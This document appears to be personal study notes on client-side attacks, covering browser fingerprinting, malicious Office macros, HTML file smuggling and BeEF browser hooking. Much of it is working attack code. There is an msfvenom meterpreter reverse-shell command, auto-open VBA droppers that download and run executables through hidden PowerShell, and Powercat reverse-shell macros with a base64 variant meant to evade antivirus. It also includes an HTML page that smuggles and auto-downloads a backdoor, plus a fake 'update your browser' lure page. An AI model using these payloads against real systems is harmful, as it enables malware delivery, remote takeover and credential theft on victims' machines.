


# Client side attack

Refer to technique used to exploit vuln or misconfig in client-side software or the system accessed by user/employees of a target organization (Not targeting the server, target employees)

In client-side attacks, attacker deliver the malicous code via standard delivery mechanisms like email, USBs, compromised website, etc.


Pharse:
- Reconnasissance
- Target identification
- Payload, resource development
- Payload Preparation
- Payload delivery
- Payload excution
- Post exploit

**Client-side attack vector**: Refer to method/path used by attacker to exploit.
- Social engineering
    - Tools: SET, Phishme, BeEF
- Drive by download
- Water hole attacks
- Malicious documents/Payload
- USB-base attacks
- Exploit kits
- Brower exploitation

---

**Information gathering**:
- Passive: 
- Active: 

**Client fingerprinting**: An atice client information gathering technique used to gather infor about target system web brower and underlying OS in order to aid in ther developemtn of tailor made (client specific) payload for initial access

**Browser Fingerpriting**: Leverages client-side scripting language like JS to extract info about target browser and underlying OS
- Set up fake webpage to runs a specific JS script when users visit the webpage
    - Some browers can block JS execution
- Infor should collect
    - Web browser and their version
    - Plugin/Extensions
    - Underlying OS infor
- Tools:
    - [FingerprintJS2](https://github.com/LukasDrgon/fingerprintjs2)
        - Setup website with apache and try to run it

## Resource developemt and weaponizations

- Resource focuses on acquiring or building the necessary resources for an attack
    - [Att&ck resource Development](https://attack.mitre.org/tactics/TA0042/)
- Weaponization involves turning those resource into effective cyber weapons

Term used by:
- MITRE ATT&CK framework
- [Cyber kill chain (Lockheed Martin)](https://www.lockheedmartin.com/en-us/capabilities/cyber/cyber-kill-chain.html)

[Pharse exploit](./Assets/image_1.png)

# VBA Marco

VBA is programming language developed by microsoft for automate task and extending the functionality of Office suite (Excel, Word, Powerpoint, Outlook)
- Word and Excel allow users to embed VBA marcos in docs/spreadsheet.



Word and Excel have data structure verification to determine the file can open or not (Changing extension will not help avoit detection)

WScript is a Windows Script Host object model that provides a scripting enviroment for executing scripting on Windows OS.
- It like lib for VBA

**Generate VBA payload with msfvenom**
- `msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=192.168.2.134 LPORT=444 -f vba-exe`
    - `-a` Architecture
    - `-p` payload
    - `f` format
    - It will come two part
        - VBA script that we use as marco
        - The payload, we need to put the payload in the content of document.
    - Set up handler and run the doc file.
- We can use format `-f vba-psh` VBA Powershell
    - After gain meterpreter, we can `search bypassuac` and use `bypassuac_dotnet_profiler` to escalate privilege
        - load incognito and impersonate tokens
    - Use `smb/psexec` set SMBUser and SMBPass with NTLM hash

**Example code for powershell dropper** (Download payload in victim)

First, genrate exe payload and host it with python

```vb
Sub AutoOpen()
    dropper
End Sub

Sub Document_Open()
    dropper
End Sub

Sub dropper()
    Dim url As String
    Dim psScript As String

    url = "http://<host_ip>:8080/shell.exe"

    psScript = "Invoke-WebRequest -Uri """ & url & """ -OutFile ""C:\Tmp\file.exe"";" & vbCrLf & "Start-Process -FilePath ""C:\Tmp\file.exe"""

    Shell "powershell.exe -ExecutionPolicy Bypass -WindowStyle Hidden -Command """ & psScript & """, vbHide

End Sub
```

### Reverse shell with Powercat

[Github Repo](https://github.com/besimorhino/powercat)

- Host the `powercat.ps1` file with `python3 -m http.server 8000`
- Create marco in Word

```vb
Sub powercat()
    Dim url As String
    Dim psScript As String

    url = "http://<host_ip>:8080/powercat.ps1"

    psScript = "IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1')"

    'Or
    'Change host ip and port to the handler address
    psScript = "IEX (New-Object System.Net.Webclient).DownloadString('" & url & "'); powercat -c <host_ip> -p <host_port> -e cmd"

    Shell "powershell.exe -ExecutionPolicy Bypass -WindowStyle Hidden -Command """ & psScript & """, vbHide

End Sub
```

- Set up listener `nc -nvlp 1234`

**To avoid AV, we can encode the powershell scipt**

- Create a pwsh sript for powercat

```pwsh
LHOST=10.10.10.10
LPORT=1234
pwsh -c "IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1');powercat -c $LHOST -p $LPORT -e cmd.exe -ge" > /tmp/reverse-shell.txt
```

- Host the file
- Create marco

```vb
'Set up autoopen

'exploit
Sub powercat()
    Dim Str As String
    Str = "powershell -c ""$code=(New-Object System.Net.Webclient).DownloadString('http://<host>/reverse-shell.txt'); iex 'powershell -WindowSyle Hidden -E $code'"""

    CreateObject("WScript.Shell").Run Str

End Sub
```

### Using ActiveX Controls for Marco Execution

ActiveX is set of technology developed by Microsoft for creating interactive content within web page and desktop app
- Doesn't need to use `Auto_Open` or `Document_Open` to execute marco
- Avoid AV

ActiveX controls and subroutine names to use for automatic marco execution



We usually use `Microsoft InkEdit Control`

# File smuggling with hmtl

Delivery is the pharse in which the attacket deliver the payload to the target
- Embedding malicous content within a HTML and JS element, encode and obfuscate
- Deliver through email or web
- Reconstruction and execute.

Example code ~ replace `file` with encoded payload

```html
<html>
  
  <body>
    <script>
      function base64ToArrayBuffer(base64) {
        let binary_string = window.atob(base64);
        var len = binary_string.length;
        var bytes = new Uint8Array(len);
        for (var i = 0; i < len; i++) {
          bytes[i] = binary_string.charCodeAt(i);
        }
        return bytes.buffer;
      }
      var file = '<backdoor.exe Base64 Encoded Value>'
      var data = base64ToArrayBuffer(file);
      var blob = new Blob([data], {
        type: 'octet/stream'
      });
      var fileName = 'msfstaged.exe';
      var a = document.createElement('a');
      document.body.appendChild(a);
      a.style = 'display: none';
      var url = window.URL.createObjectURL(blob);
      a.href = url;
      a.download = fileName;
      a.click();
      window.URL.revokeObjectURL(url);
    </script>
  </body>

</html>
```

## Establish shell through victim browser

- Start `BeEF` -> go to their login page `beef/password`
- Goto `/var/www/html` and delete `index.hmtl` -> replace with custom html
    - copy the Hook URL
    - creating the "index.html" file within the `/var/www/html`
    - `service apache2 start` Start web server
- Hook the browser of victim to our BeEF -> Create payload, set up multi handler and use social engineering feature in BeEF to lure victim to execute the payload.
    - We can create simple script to simulate user interaction
    - After interact, the hook should be create between victim browser and BeEF
- Set up payload and multi/handler
    - Utilize the "Fake Notification Bar (Firefox)" module to prompt the victim's browser with a notification to download the payload.
    - Execute the payload on the victim machine

Simple html page for BeEf

```html
<html>
        <head>
                <script src="<Hook URL>"></script>
        </head>
        <body>
                <h1>Please update your browser to access the website.</h1>
        </body>
</html>
```

Simple script to simulate user interaction with website

```powershell
$path = "C:\Program Files (x86)\Firefox Developer Edition\"
$path1 = "C:\Windows\SysWOW64\WindowsPowerShell\v1.0\"
ShellExecute($path & "firefox.exe", "http://<KALI-IP>", "", "", @SW_HIDE)
WinWait("[TITLE:Firefox Developer Edition]")
WinSetState ("[LAST]", "", @SW_HIDE)
```